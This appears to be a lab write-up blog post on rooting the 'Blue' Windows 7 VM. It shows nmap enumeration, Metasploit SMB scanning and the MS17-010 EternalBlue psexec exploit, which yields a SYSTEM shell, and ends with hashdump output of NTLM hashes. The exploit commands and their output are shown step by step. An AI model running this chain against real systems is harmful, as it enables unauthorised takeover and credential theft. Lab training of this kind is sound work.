 ```yaml
---
layout: post
title: Blue - EternalBlue
subtitle: Root the target system through its available service using Metasploit.
date: 2025-07-23 13:32
author: Ren Sie
comments: true
category: penetration-testing
---
```


## Enumeration
### Nmap
<details markdown="1">
<summary>Target Scanning Result</summary>

    Nmap 7.94SVN scan initiated Wed Jul 23 23:04:09 2025 as: nmap -T4 -p- -A -oN Blue_Nmap.txt 192.168.182.157  
    Nmap scan report for 192.168.182.157  
    Host is up (0.0024s latency).  
    Not shown: 65526 closed tcp ports (conn-refused)  
    PORT      STATE SERVICE      VERSION  
    135/tcp   open  msrpc        Microsoft Windows RPC  
    139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn  
    445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)  
    5357/tcp  open  http         Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)  
    |_http-server-header: Microsoft-HTTPAPI/2.0  
    |_http-title: Service Unavailable  
    49152/tcp open  msrpc        Microsoft Windows RPC  
    49153/tcp open  msrpc        Microsoft Windows RPC  
    49154/tcp open  msrpc        Microsoft Windows RPC  
    49155/tcp open  msrpc        Microsoft Windows RPC  
    49156/tcp open  msrpc        Microsoft Windows RPC  
    Service Info: Host: WIN-845Q99OO4PP; OS: Windows; CPE: cpe:/o:microsoft:windows  
    
    Host script results:
    | smb2-security-mode: 
    |   2:1:0: 
    |_    Message signing enabled but not required
    |_nbstat: NetBIOS name: WIN-845Q99OO4PP, NetBIOS user: <unknown>, NetBIOS MAC: 00:0c:29:4c:31:a9 (VMware)
    | smb-security-mode: 
    |   account_used: guest
    |   authentication_level: user
    |   challenge_response: supported
    |_  message_signing: disabled (dangerous, but default)
    | smb2-time: 
    |   date: 2025-07-24T03:05:23
    |_  start_date: 2025-07-24T03:56:20
    | smb-os-discovery: 
    |   OS: Windows 7 Ultimate 7601 Service Pack 1 (Windows 7 Ultimate 6.1)
    |   OS CPE: cpe:/o:microsoft:windows_7::sp1
    |   Computer name: WIN-845Q99OO4PP
    |   NetBIOS computer name: WIN-845Q99OO4PP\x00
    |   Workgroup: WORKGROUP\x00
    |_  System time: 2025-07-23T23:05:23-04:00
    |_clock-skew: mean: 1h19m59s, deviation: 2h18m33s, median: 0s
    
    Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
    # Nmap done at Wed Jul 23 23:05:28 2025 -- 1 IP address (1 host up) scanned in 79.47 seconds
    
</details>

Discover the target system run SMB service
1. 139/tcp   open  netbios-ssn  Microsoft Windows netbios-ssn
2. 445/tcp   open  microsoft-ds Windows 7 Ultimate 7601 Service Pack 1 microsoft-ds (workgroup: WORKGROUP)

### Metasploit
Using Metasploit to identify its Samba version (SMB 2.1)
1. msf6 > search scanner smb
2. msf6 auxiliary(scanner/smb/smb_version) > run
> [*] 192.168.182.157:445  
> SMB Detected (versions:1, 2) (preferred dialect: _SMB 2.1_) (signatures:optional) efe70ef4-8c95-4b46-91e2-0d232ba66646}) (authentication domain: WIN-845Q99004PP)Windows 7 Ultimate SP1 (build
04PP)

#### Weaponization

1. Google Search ✅
Some resource returns the smb version may be vulnerable to MS17-010 EternalBlue
2. Searchsploit ❌
3. Metasploit ✅
Use Metasploit to craft payload for it

#### Exploitation

1. msf6 exploit(windows/smb/ms17_010_psexec) > check

> [*] 192.168.182.157:445 Using auxiliary/scanner/smb/smb_ms17_010 as check
> [+] 192.168.182.157:445 x64 (64-bit) Host is likely VULNERABLE to MS17-010! - Windows
    
2. msf6 exploit(windows/smb/ms17_010_psexec) > run

> C:\>whoami  
> whoami  
> nt authority\system  
>  
> C:\>hostnames  
> hostnames  
> WIN-845Q99004PP

#### Post-Exploitation

1. meterpreter > hashdump
> meterpreter > hashdump  
> Administrator: 500: aad3b435b51404eeaad3b435b51404ee:58f5081696f366cdc72491a2c4996bd5:::  
> Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::  
> HomeGroupUser$:1002:aad3b435b51404eeaad3b435b51404ee:f580a1940b1f6759fbdd9f5c482ccdbb:::  
> user: 1000:aad3b435b51404eeaad3b435b51404ee: 2b576acbe6bcfda7294d6bd18041b8fe:::
